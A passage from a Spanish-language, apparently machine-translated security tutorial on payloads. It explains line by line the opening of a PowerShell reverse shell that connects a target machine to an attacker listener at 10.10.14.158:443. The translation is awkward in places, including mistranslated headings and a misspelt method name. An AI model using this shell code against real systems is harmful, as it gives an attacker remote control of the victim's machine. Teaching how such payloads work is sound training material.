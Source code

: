 Diseccionaremos el comando PowerShell bastante grande que puede ver anteriormente. Puede parecer mucho, pero con suerte, podemos desmitificarlo un poco.

### **Llamar a PowerShell**

Introducción a las cargas útiles

```
powershell -nop -c

```

Ejecutar`powershell.exe`sin perfil (`nop`) y ejecuta el bloque de comando/script (`-c`) contenido en las citas. Este comando en particular se emite dentro de Command-Prompt, por lo que PowerShell está al comienzo del comando. Es bueno saber cómo hacer esto si descubrimos una vulnerabilidad de ejecución de código remoto que nos permite ejecutar comandos directamente en`cmd.exe`.

### **Atar un enchufe**

Introducción a las cargas útiles

```
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);

```

Establece/evalúa la variable`$client`igual a (`=`) el`New-Object`cmdlet, que crea una instancia de la`System.Net.Sockets.TCPClient`Objeto .NET Framework. El objeto .NET Framework se conectará con el socket TCP que se enumera en los paréntesis`(10.10.14.158,443)`. El semicolón (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### **Configuración de la transmisión de comando**

Introducción a las cargas útiles

```
$stream = $client.GetStream();

```

Establece/evalúa la variable`$stream`igual a (`=`) el`$client`variable y el método de .net framework llamado[Gettream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0)Eso facilita las comunicaciones de la red. El semicolón (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### **Transmisión de bytes vacío**

Introducción a las cargas útiles

```
[byte[]]$bytes = 0..65535|%{0};

```

Crea una matriz tipo byte (`[]`) llamado`$bytes`Eso devuelve 65,535 ceros como los valores en la matriz. Esta es esencialmente una transmisión de bytes vacía que se dirigirá al oyente TCP en un cuadro de ataque que espera una conexión.
